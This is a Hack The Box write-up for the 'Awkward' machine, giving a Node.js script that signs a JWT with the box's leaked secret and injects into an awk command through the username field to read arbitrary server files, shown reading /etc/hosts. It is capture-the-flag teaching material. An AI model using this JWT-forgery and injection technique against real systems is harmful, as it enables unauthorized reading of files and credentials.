 # Hack The Box. Machines. Awkward

Machine write-up: https://7rocky.github.io/en/htb/awkward

### `readFile.js`

This script built in Node.js is used to read files from the server exploiting a Local File Read vulnerability. The injection comes into place in a JWT token, where we have control over the `username` field, which is used in an `awk` command.

This is the main function (`readFile`):

```js
const TOKEN_SECRET = '123beany123'
const OPTIONS = { hostname: '10.10.11.185', path: '/api/all-leave' }

const readFile = filename => {
	const token = jwt.sign({ username: `/' ${filename} '` }, TOKEN_SECRET)

	const headers = { Cookie: `token=${token}`, Host: 'hat-valley.htb' }

	const req = http.request({ ...OPTIONS, headers }, res => {
		let body = ''

  	res.on('data', data => (body += data))
  	res.on('end', () => console.log(body))
	})

	req.on('error', console.error)
	req.end()
}
```

The relevant part is the JWT token, which has a malicious `username` field (more informacion in the [write-up](https://7rocky.github.io/en/htb/awkward)). Notice that I enter the domain `hat-valley.htb`, so there is no need to update `/etc/hosts`. The rest is a standard way to perform a GET request with Node.js.

The program takes the first command-line argument as the file to read:

```js
if (process.argv.length !== 3) {
	console.error('Usage: node readFile.js <filename>')
	process.exit(1)
}

readFile(process.argv[2])
```

This is an example of usage:

```console
$ node readFile.js /etc/hosts
127.0.0.1       localhost hat-valley.htb store.hat-valley.htb  
127.0.0.1       awkward

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
